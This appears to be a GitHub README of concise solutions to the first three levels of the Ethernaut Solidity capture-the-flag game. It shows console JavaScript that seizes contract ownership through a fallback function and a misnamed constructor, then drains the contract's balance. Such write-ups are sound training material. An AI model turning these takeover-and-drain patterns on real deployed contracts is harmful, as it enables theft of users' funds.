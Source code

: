 # The Ethernaut CTF Challenge Solutions

*The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.*

Concise solutions for OpenZeppelin's Ethernaut CTF. Detailed write-ups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)  

<!---

**Pending**

[Level 3: Coin Flip](#CoinFlip)  
[Level 4: Telephone](#Telephone)  
[Level 5: Token](#Token)  
[Level 6: Delegation](#Delegation)  
[Level 7: Force](#Force)  
[Level 8: Vault](#Vault)  
[Level 9: King](#King)  
[Level 10: Re-entrancy](#Reentrancy)  
[Level 11: Elevator](#Elevator)  
[Level 12: Privacy](#Privacy)  
[Level 13: Gatekeeper One](#GatekeeperOne)  
[Level 14: Gatekeeper Two](#GatekeeperTwo)  
[Level 15: Naught Coin](#NaughtCoin)  
[Level 16: Preservation](#Preservation)  
[Level 17: Recovery](#Recovery)  
[Level 18: Magic Number](#MagicNumber)  
[Level 19: Alien Codex](#AlienCodex)  
[Level 20: Denial](#Denial)  
[Level 21: Shop](#Shop)  
[Level 22: Dex](#Dex)  
[Level 23: Dex Two](#DexTwo)  
[Level 24: Puzzle Wallet](#PuzzleWallet)  
[Level 25: Motorbike](#Motorbike)  
[Level 26: Double Entry Point](#DoubleEntryPoint)  
[Level 27: Good Samaritan](#GoodSamaritan)  
-->

## Requirements
- [Metamask](https://metamask.io/)


## <a name='HelloEthernaut'></a> 0. Hello Ethernaut
> This level walks you through the very basics of how to play the game.


```js
// We call the functions in the order as suggested 
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// We expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```




## <a name='Fallback'></a> 1. Fallback
> You will beat this level if:
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```js
// First, we contribute some ether:
await contract.contribute({value: 5})

// Then we send some ether to make us the owner
sendTransaction({from: player, to: instance, value: 5})

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()
```

## <a name='Fallout'></a> 2. Fallout
> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```js

// Call the function to claim ownership
contract.Fal1out()

// Verify we have claimed ownership
await contract.owner() 
```
